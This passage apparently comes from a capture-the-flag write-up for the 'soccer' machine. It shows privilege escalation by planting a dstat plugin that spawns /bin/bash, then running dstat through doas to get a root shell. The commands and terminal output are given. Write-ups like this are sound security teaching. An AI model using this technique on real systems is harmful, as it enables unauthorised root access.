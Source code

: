 A file `dstat_curiosity.py` is created at `/usr/local/share/dstat`. The name of the file must be `dstat_<name>.py` to be a valid plugin.

The file just runs `/bin/bash`.

```bash

-bash-5.0$ doas -u root /usr/bin/dstat --list
internal:
	aio,cpu,cpu-adv,cpu-use,cpu24,disk,disk24,disk24-old,epoch,fs,int,int24,io,ipc,load,lock,mem,mem-adv,net,page,page24,proc,raw,socket,swap,swap-old,sys,tcp,time,
	udp,unix,vm,vm-adv,zones
/usr/share/dstat:
	battery,battery-remain,condor-queue,cpufreq,dbus,disk-avgqu,disk-avgrq,disk-svctm,disk-tps,disk-util,disk-wait,dstat,dstat-cpu,dstat-ctxt,dstat-mem,fan,freespace,fuse,
	gpfs,gpfs-ops,helloworld,ib,innodb-buffer,innodb-io,innodb-ops,jvm-full,jvm-vm,lustre,md-status,memcache-hits,mongodb-conn,mongodb-mem,mongodb-opcount,mongodb-queue,
	mongodb-stats,mysql-io,mysql-keys,mysql5-cmds,mysql5-conn,mysql5-innodb,mysql5-innodb-basic,mysql5-innodb-extra,mysql5-io,mysql5-keys,net-packets,nfs3,nfs3-ops,nfsd3,
	nfsd3-ops,nfsd4-ops,nfsstat4,ntp,postfix,power,proc-count,qmail,redis,rpc,rpcd,sendmail,snmp-cpu,snmp-load,snmp-mem,snmp-net,snmp-net-err,snmp-sys,snooze,squid,test,
	thermal,top-bio,top-bio-adv,top-childwait,top-cpu,top-cpu-adv,top-cputime,top-cputime-avg,top-int,top-io,top-io-adv,top-latency,top-latency-avg,top-mem,top-oom,utmp,vm-cpu,
	vm-mem,vm-mem-adv,vmk-hba,vmk-int,vmk-nic,vz-cpu,vz-io,vz-ubc,wifi,zfs-arc,zfs-l2arc,zfs-zil
/usr/local/share/dstat:
	curiosity

```

We can see that the plugin has been loaded.

```bash

-bash-5.0$ doas -u root /usr/bin/dstat --curiosity
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
root@soccer:/usr/local/share/dstat# 
root@soccer:/usr/local/share/dstat# id; whoami
uid=0(root) gid=0(root) groups=0(root)
root
root@soccer:/usr/local/share/dstat# 
root@soccer:/usr/local/share/dstat# hostname
soccer
root@soccer:/usr/local/share/dstat# 

```

We can simply run the plugin as `dstat --<plugin name>`. 

Running the plugin with `doas` gives us `root` shell.

# CONCLUSION
